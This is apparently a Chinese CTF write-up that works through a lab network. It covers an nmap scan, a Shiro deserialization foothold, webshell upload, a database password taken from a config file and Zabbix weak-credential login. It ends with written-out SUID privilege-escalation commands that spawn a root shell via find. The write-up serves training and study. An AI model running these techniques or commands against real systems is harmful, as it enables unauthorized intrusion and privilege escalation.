





# 电信初赛-aws

## 0x00 资产发现

1. 使用 nmap 扫描, 发现站点

```
nmap -p- -v -sS 172.17.0.3

Nmap scan report for 172.17.0.3
Host is up (0.00075s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE
10055/tcp open qptlmd
27689/tcp open unknown
MAC Address: 00:0C:29:4D:62:17 (VMware
```



## 0x01 Shiro 反序列利用 getshell

使用 Shiro 反序列化利用工具, 获取到内网地址为 172.17.0.2 的 shell, 上传蚁剑马获取 webshell

在根目录中读取到 flag1



## 0x02 获取数据库权限

通过翻看配置文件, 得到 172.17.0.3 的数据库密码, 在数据库中找到 flag2

```
jdbc.driverClassName=com.mysql.jdbc.Driver
jdbc.url=jdbc:mysql://172.17.0.3:3306/jeecmsv9?characterEncoding=UTF-8
jdbc.username=root
jdbc.password=chaitin20201
```



继续翻数据库找到管理员账号及密码的 hash, 在[cmd5](https://cmd5.com/)网站中解密得到管理员密码, 登录后台后翻看页面源代码获取到 flag3





## 0x03 通过弱口令进入 zabbix 后台

向 172.17.0.2 中上传 fscan 发现 172.17.0.1 还运行着服务, 通过本地信息收集, 发现其为 zabbix 服务端. 访问发现是一个 web 界面, 使用弱口令扫描得到账号密码 Admin/password, 登陆后得到 flag4

## 0x04 获取 zabbix 服务器权限

通过前台的 Zabbix 脚本功能可以运行 bash 命令, 通过反弹 shell 的方式获取到 zabbix 服务器权限, 但是此时的用户为低权用户, 只能查看 flag, 此时得到 flag5

## 0x05 suid 提权

由于是低权账号, 因此考虑提权. 根据提权三板斧:

> suid 提权
> 应用漏洞提权
> 内核提权

我们先考虑 suid 提权, 运行一下命令查看系统内的 root 权限运行的 suid 程序:

```
#以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```

发现有 find 命令, 于是运行以下命令获取到 root 权限:

```
sudo find . -exec /bin/sh \; -quit
```

最后在 root 目录下发现 flag6
